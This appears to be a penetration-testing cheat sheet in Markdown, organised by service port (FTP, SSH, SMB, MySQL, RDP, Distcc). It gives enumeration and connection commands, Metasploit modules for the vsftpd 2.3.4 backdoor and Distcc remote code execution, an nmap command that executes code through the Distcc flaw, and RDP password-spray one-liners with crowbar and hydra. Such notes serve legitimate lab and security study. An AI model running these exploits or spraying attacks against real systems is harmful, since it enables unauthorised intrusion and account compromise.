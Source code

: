 # FTP (21)
## Connection
```bash
$ ftp <IP>
```
## Commands 
- ls
- get [FILE]
- mget [FILE] [FILE]
- put [FILE]
- exit
## Exploits
vsftpd 2.3.4 
- CVE-2011-2523 -> exploit/unix/ftp/vsftpd_234_backdoor (Metasploit)
	- Backdoor on port 6200

# SSH (22)
## General 
```bash
$ ssh <USER>@<IP>
```
## Options 
```bash
-p <PORT>
```
# SMB (139,445)
## SMB Shares Enumeration
```bash
$ smbmap -H <IP>
```
```bash
$ smbclient -L \\<IP>
```
## SMB Share Selection
```bash
$ smbclient  \\\\<IP>\\<SHARE>
```
### Commands
- **dir**: list files in current directory
- **more** <FILE>: see contents of file
- **get** <FILE>: download file to attacking device
- **cd**: change directory
- **put** <FILE>: upload file to target device

# MySQL (3306)
## Connection 
```bash
$ mysql -u <username> -p -h <ip> -P <port>
```
```bash
$ mysql -u <username> -p -h <ip> -P <port> --skip-ssl
```
## Commands
### Show All Databases
```bash
show databases;
```
### Select Database
```bash
use <table>;
```
### Show Tables in Database
```bash
show tables;
```
### Display Table
```bash
select * from <table>;
```
# RDP (3389)
## Enumeration
### Automatic
```bash
$ nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).
### Brute Force
	Be CAREFUL you might lock accounts 
### Password Sprays
	Be CAREFUL you might lock accounts 
#### Crowbar
https://github.com/galkan/crowbar
```bash
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
#### hydra
```bash
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
	
## Connection
### xfreerdp
#### Fixed Screen:
```bash
$ xfreerdp /u:<USER> /p:<PASSWORD> /cert:ignore /v:10.10.73.136 /workarea /tls-seclevel:0
```
#### Adjustable Screen:
```bash
$ xfreerdp /u:admin /p:password /cert:ignore /v:10.10.15.71  /tls-seclevel:0 /smart-sizing
```
# Distcc (3632)
Distcc is a distributed compiler tool that speeds up compilation by offloading tasks to other networked systems running the `distccd` daemon.
## Exploitation
**Vulnerability**: Distcc can be vulnerable to **CVE-2004-2687**, which allows remote code execution due to insufficient access control.
### Test Exploit using Nmap
Nmap can be used to test the vulnerability by executing a command on the remote system, such as retrieving the `id` of the current user:
```bash
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
### Exploitation with Metasploit
You can exploit this vulnerability using Metasploit:
```bash
use exploit/unix/misc/distcc_exec
```


# Mystery Port
## Connection
```bash
$ nc <IP> <PORT>
```


